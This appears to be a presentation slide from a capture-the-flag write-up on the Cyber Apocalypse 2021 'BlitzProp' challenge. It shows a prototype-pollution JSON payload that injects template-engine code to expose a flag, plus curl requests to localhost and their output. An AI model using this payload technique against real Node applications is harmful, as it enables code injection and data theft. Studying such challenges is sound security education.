

# Finding gadgets: Cyber Apocalypse 2021/BlitzProp 3
Payload:
{
  "song": "FIRE BIRD",
  "a.__proto__.block": {
    "type": "Text",
    "line": "({}).__proto__[`FIRE BIRD`] = globalThis.flag"
  }
}
Terminal:
$ curl -X POST "http://localhost/song" -H "Content-Type: application/json" --data-raw '{"song": "FIRE BIRD", "a.__proto__.block": {"type": "Text", "line": "({}).__proto__[`FIRE BIRD`] = globalThis.flag"}}’
<span>by Roseliandefine</span>
$ curl -X POST "http://localhost/song" -H "Content-Type: application/json" --data-raw '{"song": "FIRE BIRD"}’
<span>by flag{you_should_know_this_song_or_else_...}ndefine</span>
73